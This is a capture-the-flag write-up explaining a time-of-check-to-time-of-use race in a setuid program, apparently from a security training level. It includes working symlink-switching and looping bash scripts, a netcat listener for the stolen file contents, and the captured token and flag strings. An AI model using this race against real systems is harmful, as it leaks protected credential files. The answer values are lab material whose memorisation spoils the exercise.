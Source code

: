 # Level 10 - Exploit a TOCTOU vulnerability

## Vulnerability

This level exploits a Time-of-Check-to-Time-of-Use (TOCTOU) race condition vulnerability.

## Discovery & Analysis

Analyzing the binary using `strace`, we see the following sequence of system calls:
```bash
access("test2", R_OK) = 0
...
write(1, "Connecting to 192.168.122.99:696"..., 37Connecting to 192.168.122.99:6969 .. ) = 37
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("192.168.122.99")}, 16) = 0
write(3, ".*( )*.\n", 8) = 8
write(1, "Connected!\n", 11Connected!
) = 11
write(1, "Sending file .. ", 16Sending file .. ) = 16
openat(AT_FDCWD, "test2", O_RDONLY) = 4
```
The key vulnerability is the time gap between the permission check (`access()`) and the actual file opening (`open()`). If we can switch what the filepath points to during this gap, we can read files we don't have permission to access.

## Exploitation Method

### Step 1: Create necessary files

```bash
touch /tmp/myfile
chmod 777 /tmp/myfile

nano /tmp/switcher.sh
```

```bash
#!/bin/bash

while true; do
  # Switch the symbolic link to /tmp/myfile
  ln -sf /tmp/myfile /tmp/linkfile

  # Switch the symbolic link to the token file
  ln -sf /home/user/level10/token /tmp/linkfile
done
```

- `ln`: Creates links between files.

- `-s`: Creates a symbolic link (symlink) instead of a hard link. A symbolic link is like a shortcut that points to another file. They are useful here because they can quickly be redirected to point to different files.
- `-f`: Force flag. If the target file already exists, remove it before creating the link. This prevents error messages about files already existing.

```bash
nano /tmp/runner.sh

while true; do
  # Run the level10 program
  /home/user/level10/level10 /tmp/linkfile 127.0.0.1
done
```

```bash
chmod +x /tmp/switcher.sh
chmod +x /tmp/runner.sh
```

### Step 2: Set up a listener and run the scripts

In three separate terminals, run:

```bash
# Terminal 1: Start a netcat listener
nc -kl 6969

# Terminal 2: Run the program repeatedly
/tmp/runner.sh

# Terminal 3: Switch the links repeatedly
/tmp/switcher.sh
```

- `nc` is the netcat utility, a versatile networking tool
- `-l` puts netcat in "listen mode", making it act as a server
- The additional `-k` flag keeps the listener running after a client disconnects
- `6969` is the port number to listen on

After running the exploit, we captured the token from the token file:

```
woupa2yuojeeaaed06riuj63c
```

We used this token to log in as flag10 user:

```bash
su flag10
# Enter the token as password
getflag
# Output: Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## Explanation

The exploit works because:

1. When `level10` calls `access()`, our symlink points to `/tmp/myfile` which we can access
2. Before `level10` calls `open()`, our script rapidly changes the symlink to point to the token file
3. When `open()` is called, it opens the token file instead, bypassing the permission check
4. The content is sent to our netcat listener

This is a classic race condition vulnerability where the system state changes between checking permissions and performing an operation.
